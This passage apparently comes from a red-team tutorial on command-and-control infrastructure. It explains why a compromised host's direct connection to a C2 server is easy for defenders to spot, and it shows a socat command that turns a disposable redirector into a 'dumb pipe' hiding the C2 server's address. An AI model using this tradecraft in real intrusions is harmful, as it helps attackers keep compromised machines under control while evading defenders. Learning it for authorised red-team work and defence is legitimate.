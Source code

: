 This would invariably stand out to a defender as suspicious - they would not recognise the executable (even if it was called something less obvious) and would not recognise the private IP in the conversation. The blue team would quarantine the machine and sever the malicious connection we worked so hard to establish.

# **3\. Redirectors save the Red Team’s day** 

The above is a textbook example of red team bad practice. A better approach is to use **redirectors** to prevent the infrastructure from being exposed at the first hurdle.

There are a plethora of redirection techniques, and we couldn’t possibly spoil all of our own fun by sharing them (the blue team can read too you know?). We’ll focus on the technical approach behind network traffic redirection. 

## **3.1 Dumb Pipe Redirection**

Dumb pipe redirection does exactly what it says on the tin. It blindly forwards our malicious traffic from node to node, but lacks sophistication for controlling the traffic. It does however allow us to obfuscate the IP of the core server, so that’s all that matters for now.

To achieve dumb pipe redirection we can rely on **socat,** with different **firewall** implementations to improve it.  

### **3.1.1 Socat**

The following socat command would be run on our **burnable redirector server** to enable  dumb pipe redirection towards our C2 server. 

```shell
sudo socat TCP4-LISTEN:8080,fork TCP:c2address:PORT
```

![2021 07 16 11 09](images/2021-07-16_11-09.png)

This allows TCP network traffic on port 8080 of the **redirection** **machine** to communicate on port 8080 of the **C2 server.** So now our C2 server can communicate with our disposable redirection server, we now need to put the compromise machine in communication with the redirection server. This then allows a nice **chain of communication from C2 server, to redirector, to compromised machine,** which remains hidden from the eyes of defenders. 

We now need to generate a payload that will complete the link in the chain and allow the compromised machine to communicate to our redirect server, the middle-man.

![2021 07 16 11 10](images/2021-07-16_11-10.png)

